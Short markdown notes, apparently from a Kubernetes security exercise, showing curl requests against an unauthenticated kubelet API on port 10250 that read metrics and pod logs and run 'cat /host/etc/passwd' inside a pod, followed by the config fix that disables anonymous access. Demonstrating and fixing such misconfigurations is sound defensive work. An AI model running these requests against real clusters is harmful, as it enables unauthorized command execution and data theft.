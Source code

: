 
# get infos

<!-- external ip does not work -->

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->\
curl -k https://$IP:10250/logs/pods/kube-system_etcd-lod_25977589a391e2bdeecfd7f56555caca/etcd/0.log

# get info about the host

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook

systemctl restart kubelet

... run curls again
